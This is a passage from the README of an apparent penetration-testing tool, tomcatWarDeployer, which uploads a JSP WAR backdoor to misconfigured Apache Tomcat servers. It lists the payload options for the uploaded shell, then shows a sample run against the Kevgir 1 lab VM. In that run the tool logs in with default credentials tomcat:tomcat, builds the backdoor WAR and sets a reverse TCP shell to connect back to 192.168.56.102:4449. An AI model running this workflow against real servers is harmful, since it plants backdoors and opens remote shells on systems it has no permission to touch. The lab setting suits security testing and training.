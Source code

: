 ```
                        Speciifed timeout parameter for socket object and
                        other timing holdups. Default: 10

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -T TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -v -x -p 4449 -H 192.168.56.102 192.168.56.100:8080

    tomcatWarDeployer (v. 0.3)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.102:4449.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpDhzo9I"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 547) (out= 253)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1595)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpDhzo9I
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
```